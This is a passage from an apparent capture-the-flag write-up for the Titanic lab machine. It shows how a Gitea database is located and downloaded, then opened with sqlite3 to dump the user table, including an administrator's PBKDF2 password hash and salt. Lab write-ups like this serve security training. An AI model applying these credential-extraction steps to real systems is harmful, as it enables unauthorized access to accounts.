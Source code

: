 ![alt text](/Machine_Labs/Titanic/Images/image-8.png)

--> `PATH`: `data/gitea.db`.

+ Access the path:

![alt text](/Machine_Labs/Titanic/Images/image-9.png)

--> Download the file .db and open it with SQLite.

```bash
$ sqlite3 _home_developer_gitea_data_gitea_gitea.db 
SQLite version 3.45.1 2024-01-30 16:01:20
Enter ".help" for usage hints.
sqlite> .tables
...
language_stat              user                     
lfs_lock                   user_badge               
lfs_meta_object            user_blocking            
sqlite> select * from user;
1|administrator|administrator||root@titanic.htb|0|enabled|cba20ccf927d3ad0567b68161732d3fbca098ce886bbc923b4062a3960d459c08d2dfc063b2406ac9207c980c47c5d017136|pbkdf2$50000$50|0|0|0||0|||70a5bd0c1a5d23caa49030172cdcabdc|2d149e5fbd1b20cf31db3e3c6a28fc9b|en-US||1722595379|1722597477|1722597477|0|-1|1|1|0|0|0|1|0|2e1e70639ac6b0eecbdab4a3d19e0f44|root@titanic.htb|0|0|0|0|0|0|0|0|0||gitea-auto|0
```